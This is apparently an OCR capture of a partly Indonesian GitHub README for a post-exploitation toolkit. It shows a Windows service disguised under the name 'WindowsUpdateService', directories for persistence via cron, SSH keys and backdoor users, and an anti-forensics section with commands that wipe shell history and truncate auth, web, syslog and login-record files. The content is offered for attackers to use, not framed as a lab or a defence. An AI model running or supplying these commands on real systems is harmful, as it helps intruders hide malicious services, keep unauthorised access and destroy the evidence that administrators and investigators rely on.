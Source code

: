 #### Service Creation (Windows):
```cmd
# Create Windows service
sc create "WindowsUpdateService" binpath= "C:\Windows\System32\update.exe" start= auto
sc description "WindowsUpdateService" "Windows Update Background Service"
sc start "WindowsUpdateService"
```

## 📁 Struktur Direktori

- **[cron-jobs/](./cron-jobs/)**: Script dan contoh cron jobs
- **[ssh-keys/](./ssh-keys/)**: Management SSH keys untuk persistence
- **[user-creation/](./user-creation/)**: Script untuk membuat backdoor users
- **[log-cleaning/](./log-cleaning/)**: Teknik menghapus jejak aktivitas

## 🧹 Log Cleaning & Anti-Forensics

### Clear Command History:
```bash
# Clear bash history
history -c
history -w
echo "" > ~/.bash_history

# Clear zsh history
echo "" > ~/.zsh_history

# Disable history logging
unset HISTFILE
export HISTSIZE=0
```

### Clear System Logs:
```bash
# Clear auth logs
> /var/log/auth.log
> /var/log/secure

# Clear Apache/Nginx logs
> /var/log/apache2/access.log
> /var/log/apache2/error.log
> /var/log/nginx/access.log

# Clear system logs
> /var/log/syslog
> /var/log/messages

# Clear wtmp/utmp (login records)
> /var/log/wtmp
> /var/log/utmp
> /var/log/lastlog
```
